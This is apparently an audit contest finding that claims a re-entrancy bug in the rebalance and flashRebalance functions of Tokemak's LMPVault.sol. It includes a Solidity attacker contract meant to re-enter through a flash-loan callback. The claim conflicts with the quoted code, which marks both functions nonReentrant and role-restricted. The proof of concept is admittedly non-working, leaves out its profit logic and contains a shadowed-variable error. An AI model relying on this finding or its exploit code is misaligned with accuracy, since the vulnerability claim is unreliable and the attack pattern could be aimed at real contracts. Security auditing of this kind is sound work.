 Creamy Blue Wren

high

# Re-entrancy hazard in `LMPVault.sol` facilitate risk of attacks via external calls due to delayed state updates in `rebalance` and `flashRebalance` methods
## Summary

The smart contract LMPVault.sol from Tokemak protocol has a potential vulnerability related to re-entrancy. In the `rebalance` and `flashRebalance` functions, the contract seems to allow external calls before updating the state variables `totalIdle` and `totalDebt`.

## Vulnerability Detail

The `rebalance` and `flashRebalance` functions involve interactions with external contracts (which could be malicious) before updating the `totalIdle` and `totalDebt` variables. This opens an eventual risk for re-entrancy attacks.

In particular, the `rebalance` function makes an external call to `LMPDebt.rebalance` which can further interact with other external contracts. Similarly, `flashRebalance` function calls `LMPDebt.flashRebalance` which could allow the receiver to initiate a re-entrancy attack.

## Impact

If exploited, this vulnerability can result in loss of funds. An attacker could repeatedly call the `rebalance` or `flashRebalance` function while the state variables `totalIdle` and `totalDebt` are still unaltered.

## Code Snippet

```solidity
function rebalance(RebalanceParams memory params) public nonReentrant hasRole(Roles.SOLVER_ROLE) trackNavOps {
 (uint256 idle, uint256 debt) = LMPDebt.rebalance(
 destinationInfo[params.destinationOut],
 destinationInfo[params.destinationIn],
 params,
 _baseAsset,
 _shutdown,
 totalIdle,
 totalDebt
 );
 totalIdle = idle;
 totalDebt = debt;
 _collectFees(idle, debt, totalSupply());
}

function flashRebalance(
 IERC3156FlashBorrower receiver,
 RebalanceParams memory rebalanceParams,
 bytes calldata data
 ) public nonReentrant hasRole(Roles.SOLVER_ROLE) trackNavOps {
 (uint256 idle, uint256 debt) = LMPDebt.flashRebalance(
 destinationInfo[rebalanceParams.destinationOut],
 destinationInfo[rebalanceParams.destinationIn],
 receiver,
 rebalanceParams,
 LMPDebt.FlashRebalanceParams({
 totalIdle: totalIdle,
 totalDebt: totalDebt,
 baseAsset: _baseAsset,
 shutdown: _shutdown
 }),
 data
 );
 totalIdle = idle;
 totalDebt = debt;
 _collectFees(idle, debt, totalSupply());
}
```

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L691-L728

## Tool used

Manual Review

## Recommendation

The team should use the Checks-Effects-Interactions pattern in these functions. The state variables should be updated before making the external calls to avoid reentrancy exploit scenarios.

## Proof Of Concept

Here's a further comprehensive example demonstrating how an attacker might exploit the vulnerability, including the logic to repay the flash loan (plus the fee) and a basic draft scheme to profit from the vulnerability. 

> **Note that this is only an illustration and will not work directly against a mainnet fork without concrete contract addresses and parameters.**


```javascript
contract MaliciousContract is IERC3156FlashBorrower {
    LMPVault public victimContract;
    IERC20 public token;
    RebalanceParams public maliciousParams;
    bytes public maliciousData;
    uint256 public amountOwed;

    constructor(LMPVault _victimContract, IERC20 _token, RebalanceParams memory _maliciousParams, bytes memory _maliciousData) {
        victimContract = _victimContract;
        token = _token;
        maliciousParams = _maliciousParams;
        maliciousData = _maliciousData;
    }

    function executeAttack() external {
        victimContract.flashRebalance(this, maliciousParams, maliciousData);
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data) external override returns(bytes32) {
        require(msg.sender == address(victimContract), "Only victim contract can initiate");

        amountOwed = amount + fee;
        
        // Re-enter the victim contract
        victimContract.flashRebalance(this, maliciousParams, maliciousData);
        
        // Profit logic goes here. This could involve a series of complex transactions
        // that eventually lead to the attacker profiting from the re-entrancy attack.
        // This logic has been omitted for simplicity.

        // Return the loan plus fee
        require(token.transfer(msg.sender, amountOwed), "Failed to repay loan");
        
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

In this contract, we first set up the victim contract, malicious parameters, and malicious data in the constructor. The `executeAttack` function is then called to initiate the flash loan from the victim contract. Since this contract implements `IERC3156FlashBorrower`, it is called back in the `onFlashLoan` function, where it calculates the amount owed (including the fee), calls `flashRebalance` again (initiating the re-entrancy attack), and then transfers the owed amount back to the lender (repaying the loan).

The actual logic of how the attacker would profit from the re-entrancy attack has been omitted for simplicity, but it would generally involve some form of arbitrage or manipulation of contract state to the attacker's benefit.